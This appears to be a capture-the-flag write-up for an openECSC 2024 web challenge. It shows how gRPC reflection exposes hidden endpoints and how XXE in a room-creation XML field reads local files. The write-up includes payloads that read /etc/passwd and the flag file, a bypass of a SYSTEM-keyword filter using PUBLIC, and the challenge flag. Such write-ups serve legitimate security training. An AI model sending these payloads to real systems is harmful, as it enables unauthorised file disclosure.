









## Challenge description

> Welcome to the Grand Resort for Pwning Cats. Are you ready to become the cutest pwner kitten at our establishment?

> The flag is stored in /flag.txt

> Site: http://grandresort.challs.open.ecsc2024.it

## Site overview

To begin with, I will interact with the website just to get the gist of its functionality.



We have a simple website with some rooms. When we click in a room, we have the option to book it:



However, this seems to just pop an alert with a default message on our browser and take us to the home page again. Nothing of interest, let's look at the source code.

## Source code

For this challenge, we are provided with the following source code files:



### Frontend

Despite the big amount of files this folder contains, there is pretty much nothing interesting. We can see that the website uses Svelte and has an ID for each room, but we cannot interact directly with anything.

### Backend

Here is where the real challenge relies. The file provided (`server.go`) has the following code:

```go
package main

import (
	"os"
	"log"
	"net"

	"google.golang.org/grpc"
	"google.golang.org/grpc/reflection"

	pb "grand-resort/reception/service"
)

type receptionServer struct {
	pb.UnimplementedReceptionServer
}

// Endpoints' definition are in endpoints.go, which is not provided... eheheh not so easy now, uh?

func main() {
	flag := os.Getenv("FLAG")
	err := os.WriteFile("/flag.txt", []byte(flag), 0644)
	if err != nil {
		panic(err)
	}

	lis, err := net.Listen("tcp", "0.0.0.0:38010")
	if err != nil {
		log.Fatalf("failed to listen: %v", err)
	}

	grpcServer := grpc.NewServer()
	pb.RegisterReceptionServer(grpcServer, &receptionServer{})
	reflection.Register(grpcServer)
	grpcServer.Serve(lis)
}
```

The remote server is running a [gRPC](https://grpc.io/) server on port `38010`! I had never delt with gRPC (neither with Go), so I had to do a little bit of research on how to interact with it. We can also notice a comment telling us that we are missing the endpoints' definitions, so we do not exactly know what the server does.

## gRPC server

I found [this](https://github.com/grpc-ecosystem/awesome-grpc) cool website with a bunch of tools and resources for gRPC. Among these, I decided to go with [gRPCurl](https://github.com/fullstorydev/grpcurl) to try and make some requests to the remote server.

After analysing the code more in depth, specially the gRPC functions, I noticed something interesting about `reflection`. The server seems to have the [Reflection](https://grpc.io/docs/guides/reflection/) protocol enabled, which gives us the possibility to list the server's services! Therefore, we can list all the endpoints available, despite not having their definitions.

### Hidden endpoints

Let's start working with gRPCurl. Firstly, we can list the server's services:



**NOTE:** the `-plaintext` flag is necessary to avoid a TLS error.

We can see `GrandResort.Reception`, corresponding to the challenge, and the other two Reflection services. gRPCurl provides us wiht an option to describe the services:



There are two interesting endpoints, one to create a room and the other one to create a **request model** for creating a room. As to create a room we require a request model, let's go with the second one:



We receive a JSON containing the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<room>
    <name>RoomName</name>
    <price>$100.0</price>
    <description>RoomDescription</description>
    <size>30 m2</size>
</room>
```

And we can then send it in order to create a room:




### XXE

Since we are dealing with XML files and our request does not seem to go in a browser or affect the web application, I thought about trying XXE injection to read local files via the room name (which is shown in the response). My XML payload was the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<room>
<name>&file;</name>
<price>$100.0</price>
<description>RoomDescription</description>
<size>30 m2</size>
</room>
```

However, we get this response:

```json
{
  "RoomCreationResponse": "Error: you can't use the S-word!"
}
```

It seems that we cannot use the `SYSTEM` keyword (not case sensitive). There are several ways to bypass this but one of them is using `PUBLIC` instead:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY file PUBLIC "file" "file:///etc/passwd"> ]>
<room>
<name>&file;</name>
<price>$100.0</price>
<description>RoomDescription</description>
<size>30 m2</size>
</room>
```



## Flag

Finally, we can use the above payload to read `/flag.txt`:



Flag: `openECSC{UWu_r3fl3ktIng_K17T3n5_uWU_fe58e458}`